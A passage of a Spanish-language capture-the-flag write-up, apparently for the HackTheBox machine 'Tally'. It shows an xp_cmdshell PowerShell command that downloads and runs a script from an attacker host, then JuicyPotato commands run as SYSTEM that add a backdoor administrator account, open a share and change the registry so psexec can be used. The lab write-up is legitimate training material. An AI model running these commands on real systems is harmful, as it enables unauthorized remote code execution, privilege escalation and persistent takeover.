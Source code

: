 ```shell
NULL                                                                               
```
Nos creamos una shell y estamos dentro

```shell
SQL> xp_cmdshell "powershell -c "IEX(New-Object Net.WebClient).downloadString(\"http://10.10.14.8/ps.ps1\")";
```
Dentro nos encontramos que el usuario sarah tiene SetImpersonatePrivilege por lo que procedemos a usar JuicyPotato.

```shell
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Al ejecutarlo nos encontramos con este error

```powershell
.\JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user Guero gu3ro123$! /add"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
net user

User accounts for \\TALLY

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Finance                  
ftp_user                 Guero                    Guest                    
Sarah                    
The command completed successfully.
```
Para tener el privilegio de usar psexec podemos usar lo siguiente.

```cmd
.\JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators Guero /add"
.\JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net share attacker_folder=C:\Windows\temp /GRANT:Administrators,FULL /add"
.\JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```
Una ves esto ya podremos conectarnos con psexec.

